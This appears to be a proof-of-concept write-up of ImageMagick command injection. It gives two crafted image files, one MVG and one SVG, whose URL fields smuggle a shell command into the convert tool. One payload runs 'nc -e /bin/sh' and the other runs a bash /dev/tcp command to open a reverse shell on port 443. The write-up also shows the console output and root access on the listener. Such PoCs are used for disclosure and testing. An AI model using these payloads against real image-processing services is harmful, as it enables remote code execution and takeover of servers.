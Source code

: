 
### Netcat reverse shell with an MVG image input

    root@kali:~/git/PoCs# cat > shell.mvg
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "127.0.0.1" "443)'
    pop graphic-context

Run it:

    root@kali:~/git/PoCs# $CONVERT shell.mvg out.png
    ^C    <------ netcat connection
    convert: unrecognized color `https://example.com/image.jpg"|nc...
    convert: delegate failed `"curl" -s -k -L -o "%o" "https:%M"' @...
    convert: no decode delegate for this image format `HTTPS' @ err...
    convert: non-conforming drawing primitive definition `fill' @ e...

While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    whoami
    root



### Bash reverse shell with an SVG image input

    <?xml version="1.0" standalone="no"?> 
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
    "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> 
    <svg width="640px" height="480px" version="1.1" 
    xmlns="http://www.w3.org/2000/svg" xmlns:xlink= 
    "http://www.w3.org/1999/xlink"> 
    <image xlink:href="https://deadbeef.org/nop.jpg&quot;|bash -i &gt;&amp; 
        /dev/tcp/127.0.0.1/443 0&gt;&amp;&quot;1" x="0" y="0" height="640px" width="480px"/> 
    </svg>

Run it:

    root@kali:~/git/PoCs# $CONVERT shell.svg out.png
    ^C    <------ netcat connection
    convert: delegate failed `"rsvg-convert" -o "%o" "%i"' @ error/delegate.c/InvokeDeleg
       ate/1332.
    convert: unable to open image `/tmp/magick-2120p5S-EVdwLpBN': No such file or directo
       ry @ error/blob.c/OpenBlob/2702.
    convert: unable to open file `/tmp/magick-2120p5S-EVdwLpBN': No such file or director
       y @ error/constitute.c/ReadImage/540.
    convert: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3241.


While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    date
    Sun 29 Sep 2019 04:07:46 PM AEST
